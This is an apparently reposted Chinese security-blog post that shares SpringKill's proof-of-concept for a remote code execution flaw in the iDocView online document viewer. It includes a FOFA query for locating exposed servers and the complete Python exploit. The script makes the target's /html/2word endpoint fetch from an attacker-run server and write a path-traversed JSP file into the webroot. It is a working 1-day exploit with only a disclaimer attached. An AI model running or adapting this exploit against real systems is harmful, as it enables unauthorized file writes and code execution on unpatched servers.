 #  POC|SpringKill的IDOC_RCE利用POC   
原创 春纱  卫界安全-阿呆攻防   2023-11-23 22:30  
  
爱好开源的大牛子，不光代审分析了这个漏洞，现在又把这个漏洞POC开源出来了，大家看不懂分析的学习一下，已经有小伙伴找他击剑了，呆哥替他欢迎大家骚扰。  
  
SpringKill师傅的Github地址：https://github.com/springkill  
  
sdfd  

				
				  
  
   
  
01  
  
工具简介  
  

				
				  
  
 **- 项目名称：**springkill/idocv_poc  
  
**- 项目地址：**  
```
https://github.com/springkill/idocv_poc
```  
  
**- 项目描述：**  
  
I DOC VIEW RCE的Poc，本脚本仅供合法的有授权的测试使用，切勿用于未授权场景，切勿用于任何非法途径！！  
任何人使用此Poc进行非法操作造成的后果，SpringKill不承担任何责任！！！  
  
**- 项目优点：**  
  
1day poc  
  
   
  
02  
  
产品简介  
  

				
				  
  
iDocView是一个在线文档解析应用，旨在提供便捷的文件查看和编辑服务。  
  
   
  
03  
  
漏洞概述   
  

				
				  
  
本次漏洞出现在在线文档解析应用中的远程页面缓存功能。具体问题在于该应用未能对用户输入的URL进行充分的安全验证，从而导致存在安全隐患。攻击者可通过构造特殊的URL，引诱应用下载恶意文件。  
  
   
  
04  
  
影响范围  
  

				
				  
  
 iDocView < 13.10.1_20231115  
  
   
  
05  
  
Fofa语句  
  

				
				  
  
 title=="在线文档预览 - I Doc View"  
  
   
  
06  
  
POC用法  
  

				
				  
```
python3 script.py <IP_ADDRESS> <PORT> <REMOTE_IP> <REMOTE_PORT>
```  
  
 ![](https://mmbiz.qpic.cn/sz_mmbiz_gif/hFPkDXcMlMtY5N1d8sEQr8HD71NJmHaMEYdwO1WolgF2U3w8jGL0KY73WIzWWLN3gIB7ciapBwHkWbVDoHu76Hg/640?wx_fmt=gif&from=appmsg "")  
  
```
import http.server
import socketserver
import sys
import threading
import requests

visited_pages = {'/': False, '/..\..\..\docview\poc.jsp': False}

class MyHttpRequestHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        global visited_pages
        if self.path in visited_pages:
            visited_pages[self.path] = True

            if all(visited_pages.values()):
                print("Success! Go to http://{}:{}/poc.jsp".format(remote_ip,remote_port))
                threading.Thread(target=server.shutdown).start()

        if self.path == '/':
            self.send_response(200)
            self.send_header("Content-type", "text/html")
            self.end_headers()
            html = f'''<html>
<head><title>Index Page</title></head>
<body>
    <link href="http://{ip_address}:{port}/..\..\..\docview\poc.jsp">
</body>
</html>'''
            self.wfile.write(html.encode('utf-8'))
        elif self.path == '/..\..\..\docview\poc.jsp':
            self.send_response(200)
            self.send_header("Content-type", "text/html")
            self.end_headers()
            self.wfile.write(b"<html><body><h1>Poc Works!</h1></body></html>")
        else:
            self.send_error(404, "File not found")

    def log_message(self, format, *args):
        return

def send_request_to_remote():
    remote_url = f'http://{remote_ip}:{remote_port}/html/2word?url={ip_address}:{port}'
    try:
        response = requests.get(remote_url)
    except Exception as e:
        pass

if len(sys.argv) < 5:
    print("Usage: python script.py <IP_ADDRESS> <PORT> <REMOTE_IP> <REMOTE_PORT>")
    sys.exit(1)

ip_address = sys.argv[1]
port = int(sys.argv[2])
remote_ip = sys.argv[3]
remote_port = sys.argv[4]

def start_server():
    global server
    server = socketserver.TCPServer((ip_address, port), MyHttpRequestHandler)
    server.serve_forever()

server_thread = threading.Thread(target=start_server)
server_thread.start()

send_request_to_remote()
```  
  
  

